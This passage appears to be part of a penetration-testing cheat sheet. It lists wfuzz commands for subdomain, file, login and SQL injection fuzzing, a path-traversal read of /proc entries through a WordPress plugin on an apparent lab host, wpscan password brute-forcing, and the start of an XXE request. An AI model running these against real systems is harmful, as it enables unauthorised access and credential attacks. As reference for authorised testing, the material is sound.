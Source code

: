 <pre><code class="language-c">wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H &quot;Host: FUZZ.&lt;RHOST&gt;&quot; --hc 200 --hw 356 -t 100 &lt;RHOST&gt;
</code></pre>
<h5>Git</h5>
<pre><code class="language-c">wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -u http://&lt;RHOST&gt;/FUZZ --hc 403,404
</code></pre>
<h5>Login</h5>
<pre><code class="language-c">wfuzz -X POST -u &quot;http://&lt;RHOST&gt;:&lt;RPORT&gt;/login.php&quot; -d &quot;email=FUZZ&amp;password=&lt;PASSWORD&gt;&quot; -w /PATH/TO/WORDLIST/&lt;WORDLIST&gt;.txt --hc 200 -c
wfuzz -X POST -u &quot;http://&lt;RHOST&gt;:&lt;RPORT&gt;/login.php&quot; -d &quot;username=FUZZ&amp;password=&lt;PASSWORD&gt;&quot; -w /PATH/TO/WORDLIST/&lt;WORDLIST&gt;.txt --ss &quot;Invalid login&quot;
</code></pre>
<h5>SQL</h5>
<pre><code class="language-c">wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d 'db=FUZZ' --hl 16 http://&lt;RHOST&gt;/select http
</code></pre>
<h5>DNS</h5>
<pre><code class="language-c">wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H &quot;Origin: http://FUZZ.&lt;RHOST&gt;&quot; --filter &quot;r.headers.response~'Access-Control-Allow-Origin'&quot; http://&lt;RHOST&gt;/
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,404,403 -H &quot;Host: FUZZ.&lt;RHOST&gt;&quot; -u http://&lt;RHOST&gt; -t 100
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,403,404 -H &quot;Host: FUZZ.&lt;RHOST&gt;&quot; -u http://&lt;RHOST&gt; --hw &lt;value&gt; -t 100
</code></pre>
<h5>Numbering Files</h5>
<pre><code class="language-c">wfuzz -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt --hw 31 http://10.13.37.11/backups/backup_2021052315FUZZ.zip
</code></pre>
<h5>Enumerating PIDs</h5>
<pre><code class="language-c">wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000
</code></pre>
<h4>WPScan</h4>
<pre><code class="language-c">wpscan --url https://&lt;RHOST&gt; --enumerate u,t,p
wpscan --url https://&lt;RHOST&gt; --plugins-detection aggressive
wpscan --url https://&lt;RHOST&gt; --disable-tls-checks
wpscan --url https://&lt;RHOST&gt; --disable-tls-checks --enumerate u,t,p
wpscan --url http://&lt;RHOST&gt; -U &lt;USERNAME&gt; -P passwords.txt -t 50
</code></pre>
<h4>XML External Entity (XXE)</h4>
<h5>Skeleton Payload Request</h5>
<pre><code class="language-c">GET / HTTP/1.1
Host: &lt;RHOST&gt;:&lt;RPORT&gt;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 136

